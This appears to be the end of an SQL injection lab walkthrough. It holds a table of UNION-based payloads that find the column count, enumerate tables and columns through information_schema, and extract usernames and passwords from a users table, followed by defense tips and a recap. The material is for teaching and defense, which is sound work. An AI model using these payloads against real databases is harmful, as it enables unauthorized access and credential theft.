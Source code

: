 | Goal | Payload |
|------|---------|
| Confirm injectable | `'` |
| Check column count | `' UNION SELECT NULL,NULL--` |
| Identify visible column | `' UNION SELECT NULL,'a'--` |
| List tables | `' UNION SELECT NULL,table_name FROM information_schema.tables--` |
| Get columns of `users` | `' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'--` |
| Extract credentials | `' UNION SELECT NULL, username || '~' || password FROM users--` |

## 🛡️ Defense Tips

To prevent SQL injection:

- Use **parameterized queries** or **prepared statements**.
- Validate and sanitize all user inputs.
- Use **Web Application Firewalls (WAFs)** to detect common SQLi patterns.
- Limit database permissions — don’t run queries as admin.
- Monitor logs for suspicious activity.

## 🧩 Final Thoughts

SQL injection is a powerful technique that allows attackers to extract or manipulate data from a database. In this walkthrough, you learned how to:
- Identify the number of columns in a query.
- Discover which column is visible.
- Enumerate tables and their columns.
- Craft custom payloads to extract multiple values in one visible column using concatenation.

With practice, these techniques become second nature — but always remember: **use your powers responsibly!**


Happy hacking! 🔥🕵️‍♂️🛡️
